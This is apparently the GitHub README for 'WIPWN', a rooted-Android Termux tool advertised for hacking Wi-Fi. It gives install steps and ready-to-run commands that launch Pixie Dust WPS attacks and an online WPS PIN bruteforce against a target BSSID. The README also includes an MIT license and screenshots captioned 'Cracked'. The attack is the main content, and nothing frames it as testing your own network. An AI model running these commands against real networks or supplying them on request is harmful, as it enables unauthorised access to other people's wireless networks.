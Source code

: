 <h1 align="center">WIPWN</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

#### Start

<p align="center"><img src="https://raw.githubusercontent.com/ITSN0B1T4/itsn0b1t4.github.io/main/wepwn/.assets/demo2.png"></p>

#### Cracked

<p align="center"><img src="https://raw.githubusercontent.com/ITSN0B1T4/itsn0b1t4.github.io/main/wepwn/.assets/demo3.png"></p>

#### Autostart if failed 

<p align="center"><img src="https://raw.githubusercontent.com/ITSN0B1T4/itsn0b1t4.github.io/main/wepwn/.assets/demo4.png"></p>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/ITSN0B1T4/wipwn
cd wipwn
chmod +x wipwn.py
```
#### Help : `sudo python wipwn.py --help`
#### Example : `sudo python wipwn.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
MIT License

Copyright (c) 2022 Toxinum.

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF LOCATION IF TURNED ON.**

Repo : <a href="https://github.com/ITSN0B1T4/wepwn"> Here </a>
